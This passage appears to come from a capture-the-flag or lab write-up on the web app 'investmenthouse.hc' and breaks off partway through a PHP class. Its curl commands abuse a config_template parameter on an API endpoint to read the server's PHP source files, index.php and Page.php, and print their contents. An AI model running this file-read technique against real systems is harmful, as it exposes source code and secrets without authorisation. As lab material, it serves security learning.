 ```bash
</VirtualHost>
```

### Source Code Analysis

We can read the main application files to understand the application structure:

```bash
# Main index file
curl -s 'http://api.investmenthouse.hc/api/config?config_template=/var/www/investmenthouse.hc/public/index.php' -H 'x-api-key: hBwUv2xdcBJJyrrNGp6TMm9saER3XKPK' | jq '.data._config.data' -r
<?php
require '../bootstrap.php';
use app\classes\Page;

if(!isset($_GET['p']) || empty($_GET['p']))
{
    return redirect('index.php');
}

Page::load()
?>
```

```bash
# Page class
curl -s 'http://api.investmenthouse.hc/api/config?config_template=/var/www/investmenthouse.hc/app/classes/Page.php' -H 'x-api-key: hBwUv2xdcBJJyrrNGp6TMm9saER3XKPK' | jq '.data._config.data' -r
<?php
namespace app\classes;

class Page
{
    public static $controllers_path  = 'controllers/';

    public static function load()
    {
        $page = filter_input(INPUT_GET, 'p', FILTER_SANITIZE_STRING);

        if (empty($page) || strpos($page, '..') !== false || strpos($page, '/') !== false || strpos($page, '\\') !== false) {
            return die('Access Denied');
        }

        if (!preg_match('/^[a-zA-Z0-9_-]+\.php$/', $page)) {
            return die('Access Denied');
        }

        $file_path = "../app/".self::$controllers_path.$page;

        $real_path = realpath($file_path);
        $controllers_dir = realpath("../app/".self::$controllers_path);

        if ($real_path === false || strpos($real_path, $controllers_dir) !== 0) {
            return die('Access Denied');
        }

        if(!file_exists($file_path))
        {
            return die('404');
        }

        $request = (object)$_REQUEST;
        return include($file_path);
    }
```